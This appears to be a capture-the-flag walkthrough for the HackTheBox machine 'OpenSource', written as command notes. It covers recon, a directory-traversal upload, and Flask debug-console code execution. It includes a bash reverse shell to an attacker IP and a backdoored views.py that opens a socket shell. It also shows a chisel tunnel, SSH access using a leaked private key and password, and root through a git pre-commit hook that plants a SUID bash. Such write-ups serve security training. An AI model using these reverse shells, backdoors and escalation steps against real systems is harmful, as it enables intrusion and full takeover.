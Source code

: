 # 🧠 HTB: OpenSource – Command & Exploit Notes

---

## ⚙️ Recon

**Open Ports**
```bash
nmap -p- --min-rate 10000 10.10.11.164
nmap -p 22,80 -sCV 10.10.11.164
```

- `22/tcp`: OpenSSH 7.6p1
- `80/tcp`: HTTP – Werkzeug/2.1.2 Python/3.10.3
- `3000/tcp`: Filtered (accessible later from container)

**Website**
- Main page has a source code download link
- /upcloud: file uploader
- Werkzeug server implies Flask backend

**Source Review**
- `get_file_name()` strips `../` via recursive replacement
- Bug: can bypass directory traversal with `/` or `/..//`
- Hidden Git repo reveals a dev branch with dev credentials

---

## 🐚 Shell as root (inside container)

### Method 1: Flask Debug Console (Unintended)
1. Collect:
   - Username: `root`
   - App path: `/usr/local/lib/python3.10/site-packages/flask/app.py`
   - MAC: `/sys/class/net/eth0/address`
   - Boot ID: `/proc/sys/kernel/random/boot_id`
   - Container ID: `/proc/self/cgroup` → extract last part after 3rd `/`

2. Generate PIN:
   - Use [Werkzeug Debug PIN Generator (SHA1-based)](https://book.hacktricks.xyz/pentesting-web/deserialization/flask-pin-debug-code-execution)

3. Input PIN in browser debug console:
   ```python
   import subprocess; subprocess.call(["bash", "-c", "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"])
   ```

### Method 2: Upload Backdoored `views.py`
```python
@app.route('/0xdf')
def rev():
    import socket, os, pty
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.6",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("sh")
```

Upload it as `/..//app/views.py`, then visit `http://10.10.11.164/0xdf`.

---

## 🐚 Shell as dev01 (host)

### Identify Port 3000 Gitea
```bash
wget 172.17.0.1:3000 -O-
```

### Pivot Using Chisel
Host:
```bash
chisel server -p 8000 --reverse
```
Container:
```bash
./chisel client 10.10.14.6:8000 R:3000:172.17.0.1:3000
```

### Gitea Access
- URL: `http://localhost:3000`
- User: `dev01`
- Pass: `Soulless_Developer#2022`
- Repo: `home-backup` → contains SSH private key

### SSH into Host
```bash
chmod 600 opensource-dev01
ssh -i opensource-dev01 dev01@10.10.11.164
```

---

## 🧨 Privilege Escalation (host → root)

### Enumeration
```bash
id
sudo -l         # Requires dev01 password
```

### Find Cron Job with `pspy`
```bash
wget 10.10.14.6:8000/pspy64
chmod +x pspy64
./pspy64
```

### Abusing Git Hook
```bash
cd ~/.git/hooks/
echo -e '#!/bin/bash\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > pre-commit
chmod +x pre-commit
```

Wait for next cron to trigger. Then:
```bash
/tmp/0xdf -p
```

Root shell 🎯